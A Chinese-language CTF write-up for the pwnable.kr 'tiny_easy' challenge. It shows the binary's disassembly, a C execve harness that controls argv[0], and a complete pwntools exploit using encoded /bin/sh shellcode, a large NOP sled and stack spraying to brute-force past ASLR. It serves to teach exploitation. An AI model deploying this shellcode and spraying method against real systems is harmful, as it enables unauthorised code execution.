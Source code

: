 ```python
```

## tiny_easy

这道题目什么安全机制都没开，获取到第一个参数的值并跳转执行：

```
LOAD:08048054 ; Attributes: noreturn
LOAD:08048054
LOAD:08048054                 public start
LOAD:08048054 start           proc near
LOAD:08048054                 pop     eax
LOAD:08048055                 pop     edx
LOAD:08048056                 mov     edx, [edx]
LOAD:08048058                 call    edx
LOAD:08048058 start           endp ; sp-analysis failed
```

常识是执行的程序一般`argv[0]`都是程序本身，属于不可控的内容，但仍可以测试一下execve的第一参数可以为其他值。开始想使用`pwnlib.gdb`的`args`和`exe`参数方便调试，但`pwnlib.gdb.attach`是先起程序获得pid后再attach，`pwnlib.gdb.debug`的gdbserver用的是`args[0]`作为启动程序，而不是传入的`exe`参数，这一点与`pwnlib.tubes.process`的用法不同。最终老老实实写C语言进行调试：

```c
#include <stdio.h>
#include <unistd.h>
#include <errno.h>

int main(void)
{
  char *args[] = {"\x01\x02\x03\x04", "\x05\x06\x07\x08", NULL};

  execve("/home/larry/tools/Rookiss/tiny_easy/tiny_easy", args, NULL);
  printf("error code: %d(%s)\n", errno, strerror(errno));
  return 0;
}
```

既然可以跳到可控地址，剩下的就是栈喷绕过ASLR来盲跳至shellcode当中，模仿[师傅](http://weaponx.site/2017/03/02/tiny-easy-Writeup-pwnable-kr/)的WP，可以设置过多的参数尽量打满栈空间，提高盲跳的命中率：

```python
from pwn import *

shellcode  = "\xeb\x11\x5e\x31\xc9\xb1\x32\x80"
shellcode += "\x6c\x0e\xff\x01\x80\xe9\x01\x75"
shellcode += "\xf6\xeb\x05\xe8\xea\xff\xff\xff"
shellcode += "\x32\xc1\x51\x69\x30\x30\x74\x69"
shellcode += "\x69\x30\x63\x6a\x6f\x8a\xe4\x51"
shellcode += "\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"
payload = "\x90" * 8000 + shellcode

arg = [p32(0xff88ef80)]
for i in range(1,0x100):
    arg.append(payload)
while True:
    p = process(arg, executable="./tiny_easy")
    p.interactive()
```
